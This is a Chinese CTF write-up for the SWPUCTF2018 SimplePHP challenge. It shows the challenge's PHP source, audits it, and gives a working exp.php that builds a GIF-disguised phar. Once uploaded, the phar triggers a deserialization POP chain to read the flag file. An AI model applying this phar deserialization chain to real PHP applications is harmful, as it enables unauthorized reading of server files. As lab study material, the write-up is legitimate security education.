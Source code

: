 # \[SWPUCTF2018] SimplePHP

## \[SWPUCTF2018] SimplePHP

## 考点

* 代码审计
* phar反序列化
* pop链构造

## wp

### 源码

打开靶机，在查看文件这里可以看到 url 为 `http://f292dcfd-887b-4ebb-b292-7d78df57cc52.node3.buuoj.cn/file.php?file=` 不难想到文件包含

试试 php://filter/ 发现没有反应，但是直接输入文件名可以读取文件，分别获取 file.php function.php class.php upload\_file.php base.php

{% code title="file.php" %}
```php
<?php 
header("content-type:text/html;charset=utf-8");  
include 'function.php'; 
include 'class.php'; 
ini_set('open_basedir','/var/www/html/'); 
$file = $_GET["file"] ? $_GET['file'] : ""; 
if(empty($file)) { 
    echo "<h2>There is no file to show!<h2/>"; 
} 
$show = new Show(); 
if(file_exists($file)) { 
    $show->source = $file; 
    $show->_show(); 
} else if (!empty($file)){ 
    die('file doesn\'t exists.'); 
} 
```
{% endcode %}

{% code title="function.php" %}
```php
<?php 
include "base.php"; 
header("Content-type: text/html;charset=utf-8"); 
error_reporting(0); 
function upload_file_do() { 
    global $_FILES; 
    $filename = md5($_FILES["file"]["name"].$_SERVER["REMOTE_ADDR"]).".jpg"; 
    //mkdir("upload",0777); 
    if(file_exists("upload/" . $filename)) { 
        unlink($filename); 
    } 
    move_uploaded_file($_FILES["file"]["tmp_name"],"upload/" . $filename); 
    echo '<script type="text/javascript">alert("上传成功!");</script>'; 
} 
function upload_file() { 
    global $_FILES; 
    if(upload_file_check()) { 
        upload_file_do(); 
    } } 
function upload_file_check() { 
    global $_FILES; 
    $allowed_types = array("gif","jpeg","jpg","png"); 
    $temp = explode(".",$_FILES["file"]["name"]); 
    $extension = end($temp); 
    if(empty($extension)) { 
        //echo "<h4>请选择上传的文件:" . "<h4/>"; 
    } 
    else{ 
        if(in_array($extension,$allowed_types)) { 
            return true; 
        } 
        else { 
            echo '<script type="text/javascript">alert("Invalid file!");</script>'; 
            return false; 
        }}} 
```
{% endcode %}

{% code title="class.php" %}
```php
<?php
class C1e4r{
    public $test;
    public $str;
    public function __construct($name){
        $this->str = $name;}
    public function __destruct(){
        $this->test = $this->str;
        echo $this->test;}}
class Show{
    public $source;
    public $str;
    public function __construct($file){
        $this->source = $file;   //$this->source = phar://phar.jpg
        echo $this->source;}
    public function __toString(){
        $content = $this->str['str']->source;
        return $content;}
    public function __set($key,$value){
        $this->$key = $value;}
    public function _show(){
        if(preg_match('/http|https|file:|gopher|dict|\.\.|f1ag/i',$this->source)) {
            die('hacker!');
        } else {
            highlight_file($this->source);
        }}
    public function __wakeup(){
        if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
            echo "hacker~";
            $this->source = "index.php";
            }}}
class Test{
    public $file;
    public $params;
    public function __construct(){
        $this->params = array();}
    public function __get($key){
        return $this->get($key);}
    public function get($key){
        if(isset($this->params[$key])) {
            $value = $this->params[$key];
        } else {
            $value = "index.php";}
        return $this->file_get($value);}
    public function file_get($value){
        $text = base64_encode(file_get_contents($value));
        return $text;}}
```
{% endcode %}

{% code title="upload_file.php" %}
```php
<?php 
include 'function.php'; 
upload_file(); 
?>  
```
{% endcode %}

{% code title="base.php" %}
```php
<?php 
    session_start(); 
	echo $_SERVER['REMOTE_ADDR'];
?>  
```
{% endcode %}

### phar反序列化 <a href="#185268911" id="185268911"></a>

拿到源码后进行审计，发现在对上传文件检查( upload\_file\_check )时，采用了白名单的方式

![](../../.gitbook/assets/w4v8cqMe2uHsib5.png)

这样我们能够选择的绕过方式就不多了，可以去考虑 phar ，然后在 file.php 中发现调用了`file_exists()`函数，这给构造 phar 反序列化提供了条件

![](../../.gitbook/assets/W6gNpyT8dCHX1hk.png)

接下来就是读取文件了，在 `Test` 类的 `file_get()` 调用了 `file_get_contents` 获取文件内容，或许这就是突破口。`file_get()` 被调用的前提是 `Test` 类的实例化对象调用了未定义的属性或没有权限访问的属性，即 `__get()` 函数被调用

![](../../.gitbook/assets/pq5UNuDmJQAMWTi.png)

如何让 `Test` 类的 `__get()` 函数被调用，在 `Show` 类的 `__toString()` 方法中，`$this->str['str']->source` 访问了自己的 `source` 变量，这个变量 `Test` 类可没有，所以这就是让 `$this->str['str']` 为 `Test` 类的实例化对象。

![](../../.gitbook/assets/JmPztZ4ST2R6KEA.png)

如何让 `Show` 类的 `__toString()` 方法被调用，可以看到在 `C1e4r` 中的 `__destruct()` 函数调用了 `echo $this->test;` 让 `test` 是 `Show` 类的实例化对象即可

![](../../.gitbook/assets/Zfc3tNgPbqWnuo4.png)

最后是上传的路径，在 `upload_file_do()` 中给出了文件存储位置，实际上可以选择直接访问 /upload 寻找

上传路径为 `/upload/md5(filename+ip+.jpg)`

![](<../../.gitbook/assets/image (1) (1).png>)

flag 的位置在 `Show` 类的 `_show()` 函数也可以看到提示，file.php 页面的注释中也有

要注意的是读取 flag 只能用绝对路径，不能使用相对路径

{% code title="exp.php" %}
```php
<?php
class C1e4r{
    public $test;
    public $str;

}
class Show{
    public $source;
    public $str;
}
class Test{
    public $file;
    public $params;
}
$a = new Test();
$a->params['source'] = "/var/www/html/f1ag.php";
$b = new Show();
$b->str['str'] = $a;
$c = new C1e4r();
$c->str = $b;
$phar = new Phar("1.phar", 0, '1.phar');
$phar->startBuffering();
$phar->addFromString("test.txt", "test");
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($c);
$phar->stopBuffering();
?>
```
{% endcode %}

访问`file.php?file=phar://upload/8adc336297a3d5eb2550edc08aa372a8.jpg`即可
